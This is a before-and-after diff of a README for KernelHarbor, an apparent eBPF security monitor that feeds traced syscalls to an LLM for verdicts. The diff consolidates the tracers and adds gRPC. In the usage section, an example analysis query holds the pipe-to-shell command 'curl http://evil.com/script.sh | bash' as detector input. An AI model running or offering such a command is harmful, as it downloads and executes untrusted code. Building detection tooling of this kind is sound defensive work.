

Before and after one commit to fr4nsyz/KernelHarbor, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -53,22 +53,23 @@ ollama pull qwen2.5:7b
 ### Build
 
 ```bash
-# Build all components
-cd cmd/execve-tracer && go build -o execve-tracer .
-cd cmd/open-tracer && go build -o open-tracer .
+# Build consolidated agent (execve + open + connect)
+cd cmd/agent && go build -o agent .
+
+# Build analysis service
 cd cmd/analysis && go build -o analysis .
 ```
 
 ### Run
 
 ```bash
-# Terminal 1: Start analysis service
+# Terminal 1: Start analysis service (provides HTTP and gRPC)
 cd cmd/analysis && ./analysis
 
-# Terminal 2: Start tracer (requires sudo)
-sudo ANALYSIS_URL=http://localhost:8080/ingest ./execve-tracer
+# Terminal 2: Start unified agent (requires sudo)
+sudo GRPC_ADDRESS=localhost:9090 ./cmd/agent/agent
 
-# Terminal 3: Query analysis
+# Terminal 3: Query analysis via HTTP
 curl -X POST http://localhost:8080/analyze \
   -H "Content-Type: application/json" \
   -d '{"host.name":"myhost","query":"curl http://evil.com/script.sh | bash"}'
@@ -78,13 +79,22 @@ curl -X POST http://localhost:8080/analyze \
 
 ### Event Flow
 
-1. **eBPF Tracers** hook kernel syscalls (`execve`, `openat`)
+1. **eBPF Tracers** hook kernel syscalls (`execve`, `open`, `connect`)
 2. **Ring buffer** passes events to user-space Go program
-3. **HTTP POST** sends events to analysis API
+3. **gRPC** streams events to analysis service
 4. **Elasticsearch** stores events with vector embeddings
 5. **Async workers** batch events and analyze with Ollama
 6. **Vector search** finds semantically similar past events
 7. **LLM** generates security verdict
+
+### gRPC Service
+
+The analysis service exposes a gRPC API on port 9090 (configurable):
+
+| Method | Description |
+|--------|-------------|
+| `Ingest` | Stream events to the analysis pipeline |
+| `Analyze` | Query AI analysis for a specific event |
 
 ### Behavior Embedding
 
@@ -166,11 +178,13 @@ curl -X POST http://localhost:8080/analyze \
 KernelHarbor/
 ├── bpf/                    # eBPF programs (C)
 │   ├── execve-tracer.bpf.c
-│   └── open-tracer.bpf.c
+│   ├── open-tracer.bpf.c
+│   └── connect-tracer.bpf.c
 ├── cmd/
-│   ├── execve-tracer/      # Process execution tracer
-│   ├── open-tracer/       # File access tracer
-│   └── analysis/          # AI analysis pipeline
+│   ├── agent/              # Unified tracer (execve + open + connect)
+│   └── analysis/          # AI analysis pipeline (gRPC + HTTP)
+├── proto/                  # Protocol Buffer definitions
+│   └── agent.proto
 ├── plan.md                 # Original design document
 └── README.md              # This file
 ```
````
Also changed, not shown: other parts of README.md (+11 -9 lines).
